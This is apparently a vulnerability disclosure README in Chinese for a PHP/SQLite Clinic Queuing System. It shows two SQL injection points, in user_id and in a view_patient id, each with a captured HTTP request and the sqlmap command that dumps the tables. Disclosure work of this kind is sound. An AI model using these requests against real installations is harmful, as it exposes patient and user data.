 # Clinic-Queuing-System
Clinic Queuing System Vulnerability exploitation
#注入点1
功能点：Users->Add New
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/1.png)
输入所有信息save并用burpsuite抓包
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/2.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/3.png)
数据包
```
POST /php-sqlite-cqs/LoginRegistration.php?a=save_user HTTP/1.1
Host: 192.168.17.1
Content-Length: 143
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36 Edg/119.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.17.1
Referer: http://192.168.17.1/php-sqlite-cqs/?page=manage_user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a5r847gtg31fcaj6bs2hk6991v
Connection: close

formToken=%242y%2410%24yN7Wr9kopiTJpbrSGGgaF.2Ufy.K9X2Sw1jaHwM1Z3HWM%2Fb.LYgwm&user_id=&fullname=yy&username=yy&password=123456&type=1&status=0
```

Sqlmap命令：py .\sqlmap.py -r .\1.txt -p user_id –tables

user_id参数存在sql注入，成功注入到tables
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/4.png)

#注入点2
点击 +Add Record，填写好信息，save
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/5.png)
功能点：Patient List->view patient
点击view patient之前打开burpsuite工具进行抓包
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/6.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/7.png)
把抓到的数据包放进sqlmap工具里。

漏洞url：http://192.168.17.1/php-sqlite-cqs/?page=view_patient&id=23

Sqlmap命令：py .\sqlmap.py -r .\1.txt -p id --tables –batch
id为sql注入参数，成功注入到tebles
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/8.png)
